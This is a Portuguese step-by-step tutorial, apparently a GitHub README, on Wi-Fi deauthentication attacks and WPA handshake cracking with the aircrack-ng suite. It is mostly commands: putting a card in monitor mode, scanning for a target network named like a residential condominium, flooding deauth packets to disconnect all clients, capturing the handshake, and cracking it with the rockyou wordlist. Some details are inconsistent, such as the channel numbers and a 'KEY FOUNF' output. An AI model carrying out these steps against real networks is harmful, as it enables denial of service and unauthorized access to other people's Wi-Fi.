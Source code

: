 # Ataque de Deauth ou Dissociação de Redes WI-FI

Redes cabeadas se autenticam com 3 Way Handshake, eqto redes de Wi-fi autenticam com 4 Way Handshake.

🛡️ Como funciona um ataque de desautenticação?

Os atacantes que desejam realizar um ataque de desautenticação geralmente usam dispositivos habilitados para Wi-Fi e software especializado. O processo básico envolve o seguinte:

    - Captura de tráfego Wi-Fi: O atacante inicia a captura de tráfego da rede Wi-Fi alvo usando ferramentas como um sniffer de pacotes.
    - Identificação de dispositivos-alvo: O atacante identifica os dispositivos que desejam desconectar da rede.
    - Envio de pacotes de desautenticação: Usando o endereço MAC dos dispositivos-alvo, o atacante envia pacotes de desautenticação, forçando os dispositivos a se desconectarem da rede.
    - Repetição contínua: O atacante pode repetir esse processo para manter os dispositivos desconectados da rede.

🎯 Objetivos de um ataque de desautenticação de Wi-Fi

Os atacantes realizam ataques de desautenticação de Wi-Fi por várias razões, incluindo:

    - Interrupção da conectividade: Desconectar dispositivos da rede pode causar interrupções significativas nas operações normais, afetando a produtividade e o acesso à Internet.
    - Espionagem: O ataque pode ser usado como uma tática para espionar o tráfego de rede dos dispositivos-alvo enquanto eles tentam se reconectar à rede.
    - Ameaças cibernéticas: Em alguns casos, os ataques de desautenticação podem ser o primeiro passo para invasões mais graves, como ataques de força bruta a senhas.


## Instala a ferramenta de monitoramento:

```bash
sudo apt install aircrack-ng
```

## Valida o nome da sua placa de rede wi-fi:

```bash
ip -c addr
```

## Com a ferramenta AIRMON-NG, validamos possíveis conflitos de hardware antes de iniciar os processos:

```bash
sudo airmon-ng check kill
```

## Coloca a placa de rede wi-fi em modo monitoramento:

```bash
sudo airmon-ng start wlp0s20f3
```

## Valida o novo nome da sua placa de captura de redes wi-fi:

```bash
ip -c addr
```

```bash
sudo airmon-ng
```

## Com a ferramenta AIRODUMP-NG, inicia o scan de todas as redes próximas (aparecerão diversas redes):

```bash
sudo airodump-ng start wlp0s20f3mon
```

## Encerra o scan das redes após escolher o alvo:

```bash
ctrl+c
```

## Anote o ESSID (Nome) da rede alvo, bem como o BSSID (MAC) e tbém o CANAL (CH):

```bash
Condominio_Flores_II
```

```bash
64:D1:54:09:EE:3E
```

```bash
4
```

## Podemos validar apenas a rede alvo, se preferir:

```bash
sudo airodump-ng wlp0s20f3mon -d 64:D1:54:09:EE:3E
```

## Posso me conectar á rede wi-fi alvo, se for um laboratório, usando um celular.

## Vai constar o novo cliente, com dados do aparelho, definidos em STATION.

`TERMINAL 01` - VAMOS INICIAR A CAPTURA DOS PACOTES

## Subo o comando de captura de pacotes da rede alvo e salvo o arquivo de captura:

```bash
sudo airodump-ng -w capturados -c 2 --bssid 64:D1:54:09:EE:3E wlp0s20f3mon
```
OU
```bash
sudo airodump-ng -w capturados --channel 2 --essid Condominio_Flores_II wlp0s20f3mon
```

Á partir daqui, eu aguardo algum dispositivo se conectar para realizar a captura do 4 Way Hand Shake.... OU

`TERMINAL 02` - VAMOS INICIAR O ATAQUE DE DESAUTENTICAÇÃO

## Inicia o ataque ao roteador alvo (todos os clientes caem durante o ataque):

```bash
sudo aireplay-ng --deauth 0 -a 64:D1:54:09:EE:3E wlp0s20f3mon
```

Posso tbém, desautenticar apenas um dispositivo específico

```bash
sudo aireplay-ng --deauth 5 -a 64:D1:54:09:EE:3E -c 28:6C:07:6F:F9:53 wlp0s20f3mon
```

## Ao tentar re-conexão, os clientes entregam o handshake de 4 vias no TERMINAL 01:

```bash
[WPA handshake]: 64:D1:54:09:EE:3E
```

## Podemos encerrar a captura no TERMINAL 01

```bash
ctrl+c
```

## Podemos encerrar o ataque no TERMINAL 02

```bash
ctrl+c
```

## Até esse ponto apenas teríamos um ataque de Negação de serviço (DDOS), MAS, nós salvamos um arquivo com informações (capturados.cap) e vamos usá-lo

## Instale o Wireshark e abra o arquivo de captura, filtrando mensagens criptografadas, do tipo EAPOL:

```bash
sudo apt install wireshark
```

```bash
wireshark capturados.cap
```

OU

## Baixe sua wordlist para quebrar a senha capturada usando o aircrack-ng:

```bash
wget https://github.com/zacheller/rockyou.git
```

```bash
wc -l rockyou.txt
```

## Focaremos apenas em senhas que contenham de 8 a 64 caracteres, diminuindo o tempo de conjunções:

```bash
sudo grep -x '.\{8,64\}' rockyou.txt > wparockyou.txt
```

```bash
wc -l wparockyou.txt
```

```bash
aircrack-ng capturados.cap -w /home/usuariox/wordlists/rockyou.txt
```

## O resultado deve ser uma mensagem:

```bash
KEY FOUNF [ P@ssword123 ]
```

## Retira a placa de rede wi-fi do modo monitoramento:

```bash
airmon-ng stop wlp0s20f3mon
```

## Restaura sua placa de rede para navegação:

```bash
systemctl restart NetworkManager
```


## Alternativa de varredura de rede pelo terminal:
```bash
nmcli device wifi list 
```
```bash
N-USE = rede que você está usando
BSSID = endereço do roteador
SSID = nome da rede
MODE = infra (?)
CHAN = canal que está sendo utilizado pelo roteador
RATE = taxa de transferência
SIGNAL = intensidade do sinal em %
BARS = intensidade do sinal em barras
SECURITY = protocolos de segurança do roteador
```


